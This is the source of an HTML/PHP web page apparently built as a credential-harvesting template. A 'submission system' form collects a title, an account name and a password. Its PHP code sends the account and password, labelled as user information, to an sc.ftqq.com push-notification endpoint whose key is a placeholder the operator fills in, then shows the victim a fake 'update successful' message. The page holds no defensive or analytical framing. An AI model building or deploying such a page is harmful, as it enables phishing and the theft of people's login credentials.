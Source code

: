 <!DOCTYPE html>
<html>
<head>
        <title>吹牛逼</title>
  <meta name="viewport" content="width=device-width, initial-scale=0.88, maximum-scale=1, user-scalable=no">
        <meta http-equiv="X-UA-Compatible" content="IE=Edge">
        <meta charset="UTF-8">
        <meta name="keywords" content="By吹牛逼">
        <meta name="description" content="吹牛逼">
        <!-- Bootstrap -->
        <link rel="shortcut icon" href="//static.hdslb.com/images/favicon.ico">
        <link rel="stylesheet" href="//cdn.bootcss.com/bootstrap/3.3.0/css/bootstrap.min.css">
        <style>
            body{font-family: "Microsoft YaHei" ! important;}
            html{background:url(自定义背景图片) no-repeat center top;background-size:cover}body{padding-top:20px;font-size:1pc;background:transparent}h1{font-weight:400;font-size:40px}.panel{background-color:hsla(0,0%,100%,.9)}.margin-base-vertical{margin:40px 0}.margin-base-mini{margin:20px 0}.bs-callout{padding:20px;margin:20px 0;border:1px solid #eee;border-left-width:5px;border-radius:3px}.bs-callout h4{margin-top:0;margin-bottom:5px}.bs-callout p:last-child{margin-bottom:0}.bs-callout code{border-radius:3px}.bs-callout+.bs-callout{margin-top:-5px}.bs-callout-danger{border-left-color:#d9534f}.bs-callout-danger h4{color:#d9534f}.bs-callout-warning{border-left-color:#f0ad4e}.bs-callout-warning h4{color:#f0ad4e}.bs-callout-info{border-left-color:#5bc0de}.bs-callout-info h4{color:#5bc0de}.tile-footer{padding:5px 10px;background:rgba(0,0,0,.1);text-align:left}.tile-content-wrapper{position:relative;overflow:hidden;padding:10px 10px 17px}.tile-content{font-size:35px}.tile-content span{font-size:18px;font-weight:700}.tile-content span,.tile-content-wrapper small{opacity:.7;-moz-opacity:.7;filter:alpha(opacity:70)}.tile-content-wrapper small{display:block;text-align:right;font-size:14px}.tile-header{padding:10px;background:#84b8ff;text-transform:uppercase;font-size:18px}.niebu{padding:10px}
input{margin-top: 3px;}
                </style>
</head>
<body>
        <div class="container">
                <div class="row">
          
            <div class="col-md-6 col-md-offset-3 panel panel-default">
                        <h2 class="text-center">提交系统</h2>
                        <div class="bs-callout bs-callout-info">
                                                <h4 class="help-block text-left">Title</h4>
                                </div>
                                <form action="" method="post">
<span class="label label-info">标题: </span><input type="text" name="text" placeholder="标题" class="form-control">
<span class="label label-info">账  号: </span><input type="text" name="user" placeholder="账号" class="form-control">
<span class="label label-info">密  码:</span><input type="text" name="pass" placeholder="密码" class="form-control">


<br>

<input type="submit" value="提交" class="btn btn-sm btn-success">
                  <br>
                  文本
</form>
        <?php

$text="订单信息：".$_POST["text"];
$desp="用户信息…账号：".$_POST["user"]."密码：".$_POST["pass"];
file_get_contents("https://sc.ftqq.com/替换成你自己的.send?text={$text}&desp={$desp}");
?>
<span style="color: purple;">
<?php
if($_POST)
{
echo "提示：".$text."更新成功！请勿重复提交";
}
?></span>
                        </div>
                        <div class="col-md-3"> <!-- 评论代码放置区 -->        
                        </div>
                </div><!-- //row -->
        </div> <!-- //container -->

</body>
</html>
